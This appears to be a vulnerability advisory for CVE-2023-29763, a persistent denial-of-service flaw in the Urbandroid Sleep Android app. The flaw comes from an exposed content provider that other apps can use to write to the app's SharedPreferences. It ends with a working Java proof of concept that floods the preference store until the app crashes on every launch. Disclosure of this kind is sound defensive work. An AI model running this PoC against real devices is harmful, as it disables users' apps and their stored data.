 # Denial of Service exists in Sleep（CVE-2023-29763）

Vendor: Urbandroid(http://twilight.urbandroid.org/)

Affected product: Sleep(com.urbandroid.sleep)

Version: 20230303

Download link： https://play.google.com/store/apps/details?id=com.urbandroid.sleep

Description of the vulnerability for use in the CVE：An issue found in Sleep v.20230303 allows unauthorized apps to cause a persistent denial of service by manipulating the SharedPreference files.

Additional information: The Sleep application allows unauthorized applications to modify the data in its SharedPreference file through the interface provided by the exposed component, which is loaded into memory for use at application startup. Once an attacker injects an excessive amount of data, it triggers an OOM error and crashes, which eventually leads to a persistent denial of service as the data is stored persistently in the SharedPreference file.

poc:

```java
ContentResolver contentResolver = getApplicationContext().getContentResolver();
Uri parse = Uri.parse("content://com.urbandroid.sleep.multiprocesspreferences.PREFFERENCE_AUTHORITY/a/a");
while(true){
    ContentValues contentValues = new ContentValues();
    String string = getRandomString(10000);
    contentValues.put(string,string);
    contentResolver.insert(parse,contentValues);
}
```